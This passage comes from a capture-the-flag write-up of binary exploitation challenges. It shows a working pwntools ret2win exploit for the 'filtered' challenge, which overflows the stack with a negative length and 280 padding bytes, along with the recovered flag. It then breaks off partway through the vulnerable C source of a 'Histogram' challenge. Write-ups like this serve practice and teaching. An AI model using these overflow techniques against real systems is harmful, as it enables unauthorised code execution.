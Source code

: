 ```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
No canary and PIE is disabled. So, we can do a simple `ret2win` by giving a negative number. I chose `-1` for maximum bytes.<br>
Just calculate the offset upto RIP and put address of `win` and you get the flag.
```py
#!/usr/bin/env python3
from pwn import *

def start():
    global p
    if args.REMOTE:
        p = remote('filtered.chal.acsc.asia', 9001)
    else:
        p = elf.process()

context.binary = elf = ELF('./filtered')
libc = elf.libc
start()

p.sendlineafter(': ', '-1')
p.sendlineafter(': ', b'A'*280 + p64(elf.sym.win))

p.interactive()
p.close()
```

Flag: `ACSC{GCC_d1dn'7_sh0w_w4rn1ng_f0r_1mpl1c17_7yp3_c0nv3rs10n}`

# Histogram - 200 pts - 38 solves
Relevant source code below:
```c
[redacted]
int map[WSIZE][HSIZE] = {0};
int wsum[WSIZE] = {0};
int hsum[HSIZE] = {0};

/* Call this function to get the flag! */
void win(void) {
  char flag[0x100];
  FILE *fp = fopen("flag.txt", "r");
  int n = fread(flag, 1, sizeof(flag), fp);
  printf("%s", flag);
  exit(0);
}

int read_data(FILE *fp) {
  /* Read data */
  double weight, height;
  int n = fscanf(fp, "%lf,%lf", &weight, &height);
  if (n == -1)
    return 1; /* End of data */
  else if (n != 2)
    fatal("Invalid input");

  /* Validate input */
  if (weight < 1.0 || weight >= WEIGHT_MAX)
    fatal("Invalid weight");
  if (height < 1.0 || height >= HEIGHT_MAX)
```